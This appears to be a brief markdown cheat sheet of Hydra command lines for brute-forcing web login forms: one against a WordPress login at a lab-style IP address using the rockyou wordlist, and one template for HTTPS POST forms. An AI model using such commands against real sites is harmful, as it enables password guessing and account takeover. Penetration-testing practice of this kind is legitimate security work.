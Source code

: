 # hydra

## Hydra Usage

### Post attack

```csharp
hydra -l notch -P /usr/share/wordlists/rockyou.txt 10.10.10.37 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

``

``

`Https POST`

```shell
hydra -L users -p PASSWORD  IP https-post-form "/auth/login:module=auth&action=login&username=^USER^&password=^PASS^:Invalid" -fV 
```
